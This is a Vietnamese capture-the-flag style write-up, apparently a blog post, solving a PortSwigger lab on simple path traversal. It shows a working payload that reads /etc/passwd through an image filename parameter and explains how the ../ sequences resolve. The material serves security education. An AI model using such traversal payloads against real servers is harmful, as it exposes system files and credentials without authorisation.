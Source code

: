 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.


## Solve Path Traversal Lab
---
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.